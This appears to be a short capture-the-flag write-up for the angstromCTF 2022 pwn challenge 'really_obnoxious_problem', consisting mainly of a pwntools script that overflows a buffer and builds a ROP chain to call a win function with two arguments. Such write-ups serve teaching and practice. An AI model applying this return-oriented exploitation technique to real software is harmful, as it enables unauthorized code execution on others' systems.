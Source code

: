 ret2win function with arguments.The second argument is a pointer.

```  
#!/usr/bin/env python3

from pwn import *  
exe = ELF('./really_obnoxious_problem')  
context.binary = exe  
context.log_level='debug'

def conn():  
   if args.REMOTE:  
       io = remote('challs.actf.co', 31225)  
   else:  
       io = process(exe.path)  
       if args.DEBUG:  
           gdb.attach(io)

   return io

offset = 72  
pop_rdi = 0x00000000004013f3 #: pop rdi; ret;  
pop_rsi_r15 = 0x00000000004013f1 #: pop rsi; pop r15; ret;

io = conn()  
io.sendlineafter(b'Name: ',b'bobby')

payload = flat ({  
   offset:[  
       pop_rdi,  
       0x1337,  
       pop_rsi_r15,  
exe.sym.name,  
       0x0,  
       exe.functions.flag  
       ]  
   })

write('payload', payload)  
io.sendlineafter(b'Address: ', payload)  
io.interactive()  
```

Original writeup (https://github.com/GonTanaka/CTF-
Writeups/tree/main/angstrom2022/pwn/really_obnoxious_problem).